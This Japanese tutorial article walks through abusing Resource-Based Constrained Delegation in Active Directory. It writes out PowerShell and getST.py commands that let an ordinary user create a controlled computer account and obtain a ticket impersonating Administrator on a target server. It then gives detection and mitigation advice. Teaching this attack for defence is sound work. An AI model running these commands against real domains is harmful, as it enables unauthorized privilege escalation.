

## はじめに

- **この記事で得られること**: [Kerberos制約付き委任で『ダブルホップ問題』を解決するハンズオン](/articles/ad-constrained-delegation-handson-guide)では、委任を許可するかどうかを、委任元(フロントエンド)のアカウントに設定しました。このハンズオンでは、**リソースベース制約付き委任**(RBCD、Resource-Based Constrained Delegation)という、この構造を逆転させた仕組みを悪用し、ドメイン管理者権限を一切使わずに、Domain Adminsへの権限昇格を自分の手で再現します。
- **対象読者**: Kerberos制約付き委任、そして[制約なし委任の危険性](/articles/ad-unconstrained-delegation-handson-guide)は経験済みで、委任という仕組みの、もう1つの重要な変種を知りたい方を想定しています。
- **読むのにかかる想定時間**: 約25分(ハンズオン)

この記事は[『上位1%』シリーズ 全記事ガイド](/sitemap)の一部、[ActiveDirectory学科](/sitemap#シリーズ一覧)の43.2本目です。

## 前提知識

- [Kerberos制約付き委任](/articles/ad-constrained-delegation-handson-guide): `msDS-AllowedToDelegateTo`属性や、S4U2Proxyという仕組みの、基本的な理解が前提になっています。

## 全体像をつかむ

**従来のKerberos制約付き委任は、「委任元(フロントエンド)のアカウントに、`msDS-AllowedToDelegateTo`属性を設定し、どのサービスへ委任できるかを宣言する」、という構造でした。** **RBCDは、この構造を逆転させます。委任先(バックエンド)のリソース自身が、`msDS-AllowedToActOnBehalfOfOtherIdentity`という属性に、「どのアカウントからの委任を受け入れるか」を宣言する**のです。**この逆転によって、ドメイン管理者だけが持つ特権(`SeEnableDelegationPrivilege`)を必要とせず、対象のバックエンドリソース(コンピューターオブジェクト)への書き込み権限(`GenericWrite`・`GenericAll`・`WriteDacl`など)さえあれば、誰でもRBCDを構成できてしまいます。**



## ハンズオン:RBCDを悪用し、権限を昇格させる

### Step 1: 既定のms-DS-MachineAccountQuotaを確認する

```powershell
Get-ADObject (Get-ADDomain).DistinguishedName -Properties ms-DS-MachineAccountQuota
```

**既定値は10であり、特別な権限を持たない一般ドメインユーザーでも、最大10台までコンピューターアカウントを、自分自身が完全に制御できる状態で作成できる**ことを確認します。

### Step 2: 攻撃者が完全に制御するコンピューターアカウントを作成する

```powershell
New-MachineAccount -MachineAccount EVILPC -Password $pw
```

このコンピューターアカウントのSIDとパスワードは、作成した一般ユーザー自身が把握しています。

### Step 3: 書き込み権限を持つ標的を見つけ、RBCDを設定する

標的のコンピューターオブジェクトに対して、`GenericWrite`や`GenericAll`のような書き込み権限を持っている場合、`msDS-AllowedToActOnBehalfOfOtherIdentity`属性に、Step 2で作成したコンピューターアカウントを設定します。

```powershell
Set-ADComputer TARGETPC -PrincipalsAllowedToDelegateToAccount EVILPC$
```

### Step 4: S4U2Self/S4U2Proxyで、Domain Adminsとしてサービスチケットを取得する

```bash
getST.py -spn 'cifs/targetpc.corp.local' -impersonate 'Administrator' -dc-ip <DC_IP> 'corp.local/EVILPC$:password'
```

**取得したチケットを使えば、EVILPC$というコンピューターアカウントは、まるでAdministrator(Domain Admins)であるかのように、標的サーバーへアクセス**できます。一般ユーザー権限から、特定サーバーへのDomain Admins相当のアクセスまで、ドメイン管理者の介入を一切必要とせずに到達したことになります。

<details>
<summary>この攻撃が成立する2つの前提条件</summary>

**RBCDの悪用が成立するには、2つの前提条件が同時に必要**です。**1つ目は、攻撃者が完全に制御できるコンピューターアカウント(通常はms-DS-MachineAccountQuotaで入手)、2つ目は、標的のコンピューターオブジェクトへの書き込み権限**です。この2つ目の権限は、過去の運用でヘルプデスクへ付与されたOU単位の広すぎる権限や、グループポリシーの設定ミスなど、見落とされがちな経路から、意図せず付与されていることがあります。

</details>

## プロが見ている視点(上位1%の理解)

### 「誰に委任を許可するかを決める側」が、フロントエンドかバックエンドかという、設計思想の転換そのものがリスクの正体

**従来の制約付き委任は、委任を許可する側(フロントエンド)が、高い権限(ドメイン管理者)を持つ主体によって制御される、という前提に立っていました。RBCDは、この「決める側」を、バックエンドリソース自身に移すことで、委任元のアカウントに対する管理の柔軟性を高めましたが、同時に、「バックエンドへの書き込み権限」という、より見落とされやすい経路を、新たな攻撃対象として生み出した**のです。**ms-DS-MachineAccountQuotaの既定値10が、この攻撃の前提条件の半分を、特別な権限なしに満たしてしまう**という事実は、多くの組織で見落とされています。**セキュリティ上の前提が、「誰が、何を、どう決めるのか」という設計の転換によって、静かに変化する**という視点が、この攻撃の本質を理解する鍵です。

## よくある誤解・つまずきポイント

- **誤解1: 「委任の設定には、常にドメイン管理者権限が必要だ」**
  RBCDは、対象のバックエンドリソースへの書き込み権限さえあれば、ドメイン管理者の特権を必要とせずに構成できます。
- **誤解2: 「コンピューターアカウントの作成には、特別な権限が必要だ」**
  既定のms-DS-MachineAccountQuotaが10であるため、一般ドメインユーザーでも、最大10台までコンピューターアカウントを作成できます。
- **誤解3: 「RBCDは、従来の制約付き委任よりも、常に安全な仕組みだ」**
  RBCDは管理の柔軟性を高める一方で、バックエンドへの書き込み権限という、別の攻撃経路を生み出しています。

## 障害・トラブルシューティングの視点

1. **一般ユーザーが、意図せずコンピューターアカウントを作成できてしまう**: `ms-DS-MachineAccountQuota`を0に設定し、ドメイン参加を、委任された専用のプロセスのみに制限することを検討します。
2. **誰がRBCDを構成できるかを把握したい**: 対象のコンピューターオブジェクトに対して、`GenericWrite`・`GenericAll`・`WriteDacl`を持つプリンシパルを、定期的に監査します。
3. **RBCDの設定変更を検知したい**: イベントID 5136(ディレクトリオブジェクトの変更)を監視し、`msDS-AllowedToActOnBehalfOfOtherIdentity`属性への変更を追跡します。

## まとめ

- RBCDは、委任を許可するかどうかを、委任元ではなく、委任先(バックエンド)のリソース自身に決めさせる仕組みです。
- この逆転により、ドメイン管理者の特権ではなく、対象リソースへの書き込み権限さえあれば、RBCDを構成できてしまいます。
- 既定のms-DS-MachineAccountQuota(値10)が、攻撃者に、自分が完全に制御できるコンピューターアカウントを無償で提供してしまいます。
- `ms-DS-MachineAccountQuota`を0に設定し、バックエンドへの書き込み権限を定期的に監査することが、有効な対策です。

**今日から意識すべきこと**
1. `ms-DS-MachineAccountQuota`の既定値が10のままになっていないかを確認し、必要なければ0に設定しましょう。
2. コンピューターオブジェクトへの書き込み権限を、OU単位の広すぎる権限委任から、定期的に見直しましょう。

## 参考文献

- [Resource-Based Constrained Delegation (RBCD) Attack | RedFox Security](https://www.redfoxsec.com/blog/resource-based-constrained-delegation-rbcd-attack-how-attackers-exploit-active-directory-trust)
- [The Overlooked Danger: How ms-DS-MachineAccountQuota Fuels AD Attacks | Packetlabs](https://www.packetlabs.net/posts/the-overlooked-danger-how-ms-ds-machine-account-quota-fuels-ad-attacks/)
